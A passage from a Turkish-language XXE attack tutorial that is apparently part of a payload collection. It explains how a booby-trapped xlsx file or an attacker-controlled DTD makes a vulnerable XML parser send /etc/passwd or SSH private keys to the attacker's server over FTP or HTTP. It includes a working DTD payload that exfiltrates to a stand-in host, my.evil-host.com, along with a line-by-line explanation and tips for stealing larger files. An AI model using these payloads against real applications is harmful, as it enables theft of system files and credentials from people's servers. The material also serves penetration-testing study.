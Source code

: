 Bu araç hem `DTD` dosyasını HTTP ile sunar hem de gelen `FTP` isteklerini dinleyip dosya verisini alır (örn. `/etc/passwd`).

- Hazırladığın `xxe.xlsx` dosyasını aç.
- Eğer `rrr` entity’si tetiklenirse, FTP server’a bağlanılır ve örneğin `/etc/passwd` FTP üzerinden aktarılır.


##### Dikkat Edilecekler

- Excel bazı durumlarda `DOCTYPE` yorumlarını yoksayabilir; farklı dosyalarda dene (örn. `sharedStrings.xml`).
- Blind XXE olduğu için doğrudan bir çıktı görmezsin. Payload sunucuya bağlandıysa dosya çalışmış demektir.
- DTD dosyası sayesinde tekrar `.xlsx` dosyasını değiştirmeden test yapılabilir.

- **FTP yerine HTTP** kullanırsan daha az veri alırsın çünkü HTTP’de query string uzunluk sınırı var.
- FTP ile büyük dosyalar da çalınabilir (örneğin `.ssh/id_rsa`).
- Bu yöntem sadece **XML parser**’ı düzgün çalışan uygulamalarda işe yarar.


### 99- XXE Inside DTD file (XXE DTD dosyası içinde)

Yukarıda ayrıntıları verilen XXE payload'larının çoğu hem DTD veya `DOCTYPE` bloğu hem de `xml` dosyası üzerinde kontrol gerektirir. Nadir durumlarda, yalnızca DTD dosyasını kontrol edebilir ve `xml` dosyasını değiştiremezsiniz. Örneğin, bir MITM. Kontrol ettiğiniz tek şey DTD dosyası olduğunda ve `xml` dosyasını kontrol etmediğinizde, bu payload ile XXE yine de mümkün olabilir.

```xml
<!-- Hassas bir dosyanın içeriğini bir değişkene yükleyin -->
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!-- URL'deki dosya içeriğiyle bir HTTP alma isteği oluşturmak için bu değişkeni kullanın -->
<!ENTITY % param1 '<!ENTITY &#37; external SYSTEM "http://my.evil-host.com/x=%payload;">'>
%param1;
%external;
```

| Satır                                             | Açıklama                                                                                                                                                                |
| ------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `<!ENTITY % payload SYSTEM "file:///etc/passwd">` | `%payload` adında bir entity tanımlanıyor. İçeriği `file:///etc/passwd` olacak şekilde **local dosya sisteminden veri çekiliyor**.                                      |
| `<!ENTITY % param1 '...'>`                        | `%param1`, bir başka ENTITY tanımı oluşturuyor ama dikkat: `&#37;` → `%` karakterini temsil eder. Böylece `<!ENTITY % external SYSTEM "...">` XML parser’a tanıtılıyor. |
| `%param1;`                                        | Yukarıda tanımlanan `%param1` uygulanıyor. Parser şimdi gerçek bir ENTITY tanımı okuyor: `%external`                                                                    |
| `%external;`                                      | Son olarak, bu dış entity çağrılıyor: `http://my.evil-host.com/x=[DOSYA İÇERİĞİ]` ⇒ hedef sistem **senin sunucuna hassas veriyi HTTP ile gönderiyor.**                  |
